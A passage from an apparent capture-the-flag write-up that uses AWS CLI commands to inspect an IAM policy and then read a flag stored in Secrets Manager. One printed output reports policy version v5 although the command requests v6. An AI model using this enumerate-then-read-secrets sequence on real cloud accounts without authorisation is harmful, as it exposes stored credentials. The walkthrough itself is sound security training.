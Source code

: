 ```json
            ]
        },
        "VersionId": "v6",
        "IsDefaultVersion": true,
        "CreateDate": "2025-04-04T00:37:02+00:00"
    }
}
```

- Now we need to view the policy statement.
```bash
aws iam get-policy-version --policy-arn arn:aws:iam::614108131227:policy/ec2instancepolicy --version-id v6
```
```json
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "VisualEditor0",
                    "Effect": "Allow",
                    "Action": [
                        "iam:GetRole",
                        "iam:ListAttachedRolePolicies",
                        "iam:GetPolicy",
                        "iam:GetPolicyVersion"
                    ],
                    "Resource": "*"
                },
                {
                    "Sid": "VisualEditor1",
                    "Effect": "Allow",
                    "Action": [
                        "secretsmanager:GetSecretValue",
                        "secretsmanager:DescribeSecret"
                    ],
                    "Resource": "arn:aws:secretsmanager:us-east-2:614108131227:secret:flag-imCL9a"
                }
            ]
        },
        "VersionId": "v5",
        "IsDefaultVersion": false,
        "CreateDate": "2025-04-04T00:33:42+00:00"
    }
}
```

- Get the flag from Secrets Manager.
```bash
aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-east-2:614108131227:secret:flag-imCL9a --region us-east-2
```
```json
{
    "flag": "squ1rrel{you_better_not_have_vibe_coded_the_solution_to_this_challenge}"
}
```

**Flag:** `squ1rrel{you_better_not_have_vibe_coded_the_solution_to_this_challenge}`